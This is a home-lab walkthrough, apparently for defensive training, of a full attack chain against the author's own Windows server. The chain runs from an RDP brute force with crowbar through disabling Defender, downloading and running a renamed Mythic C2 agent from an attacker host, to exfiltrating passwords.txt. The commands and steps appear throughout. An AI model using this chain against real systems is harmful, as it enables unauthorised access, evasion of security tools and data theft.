 
### 1. Introduction

Goal: Perform an RDP brute force attack using Kali Linux, generate a Mythic C2 agent and host it, establish a C2 session from a compromised Windows server and exfiltrate a sensitive file to complete the attack chain.

---

### 2. Objective

- Launch a brute force attack on a Windows server.
- Run discovery and defense evasion commands.
- Build and host a Mythic payload.
- Download and execute the payload on the Windows target.
- Establish a C2 session and exfiltrate the `passwords.txt` file.

---

### 3. Preparing the Windows Server

1. **Create Fake Password File**
    - Navigate to `Documents` and create a file named `passwords.txt`.
        ![[Pasted image 20251018160503.png]]

2. **Change Windows Password**
    
    - Go to:  
        `Start Menu` → Username → `Change Account Settings` → `Sign-in Options` → Password → `Change`
        
    - Set the new password to `Winter2024!`.
        
3. **Adjust Password Policy (if required)**
    
    - Minimum password length: **5 characters**
    - Disable complexity requirements in _Local Group Policy Editor_.
    ![[Pasted image 20251018160803.png]]

---

### 4. Performing RDP Brute Force Attack

1. **Prepare Wordlist**
    - Navigate to Kali Linux terminal:
        
        `cd /usr/share/wordlists 
        `sudo gunzip rockyou.txt.gz 
        `sudo head -50 rockyou.txt > ~/home/kali/mydfir-wordlist.txt 
        `echo "Winter2024!" >> ~/home/kali/mydfir-wordlist.txt
        ![[Screenshot (24).png]]
        
2. **Install Crowbar**
    
    `sudo apt-get update && sudo apt-get upgrade -y 
    `sudo apt-get install -y crowbar`
    
3. **Create Target File**
    
    - Add Windows Server IP and username.
        
4. **Run Brute Force Attack**
    
    `crowbar -b rdp -u Administrator -C Challenge-Wordlist.txt -s <MYDFIR-WIN-emaan-IP>/32`
    
5. **Successful Login**
    
    - Username: `Administrator`
    - Password: `Winter2024!`
        
![[Pasted image 20251018163154.png]]

---

### 5. Connecting to the Windows Server

1. **Establish RDP Session**
    
    `xfreerdp /u:Administrator /p:Winter2024! /v:<MYDFIR-WIN-IP>:3389`
    
2. **Trust the certificate** to complete the connection.
    
![[Screenshot 2025-10-18 163516.png]]
---

### 6. Discovery Phase

Run basic discovery commands in PowerShell or CMD:

`whoami 
`ipconfig 
`net user 
`net group 
`net user Administrator`
![[Pasted image 20251018164112.png]]
![[Pasted image 20251018164424.png]]
---

### 7. Defense Evasion

Disable Windows Defender:

- Open **Windows Security** → **Virus & Threat Protection**.
- Disable Real-time protection and other security features.
![[Pasted image 20251018164559.png]]
---

### 8. Execution Phase (Mythic Agent Setup)

1. **Access Mythic Server**
    
    `ssh root@<MYDFIR-MYTHIC-IP>`
    
2. **Install Apollo Agent**
    
    `./mythic-cli install github https://github.com/MythicAgents/Apollo.git`
    
3. **Install HTTP C2 Profile**
    
    `./mythic-cli install github https://github.com/MythicC2Profiles/http`
    
4. **Create Payload in Mythic Web GUI**
    
    - Target OS: **Windows**
    - Output Format: **WinExe**
    - Commands: **Include All**
    - C2 Profile: **HTTP**
    - Callback Host: `http://<MYDFIR-MYTHIC-IP>`
    - Port: `80`
    - Payload Name: `ChallengeMythicPayload`

---

### 9. Hosting and Downloading Payload

1. **Download Payload**
    
    `wget <payload_download_link> --no-check-certificate mv <payload_name>.exe servicehost-haji.exe`
    
2. **Serve Payload over HTTP**
    
    `ufw allow 9999 python3 -m http.server 9999`
    
3. **Download on Windows Target**
    
    `Invoke-WebRequest -Uri http://<Challenge-Mythic-IP>:9999/servicehost-haji.exe -OutFile C:\Users\Public\Downloads\servicehost-haji.exe`
    
4. **Allow Port 80**
    
    `ufw allow 80`
    
5. **Execute Payload**
    
    `.\servicehost-haji.exe`
    
6. **Verify Connection**
    
    `netstat -anob`
    
    - Also check Task Manager or Mythic GUI callbacks.
        

---

### 10. Establishing C2 Connection

- Open Mythic Web GUI → **Active Callbacks**.
- Interact with the agent and run:
    
    `whoami ipconfig`
    

---

### 11. Exfiltration

1. **Download the Target File**
    
    `download C:\Users\Administrator\Documents\passwords.txt`
    
2. **Verify in Mythic Web GUI**
    
    - Navigate to **Files** → Check `passwords.txt` contents.
        


**Reference**
https://youtu.be/85x0NLj2zUo?si=_cpuOgH-OqAYwgYo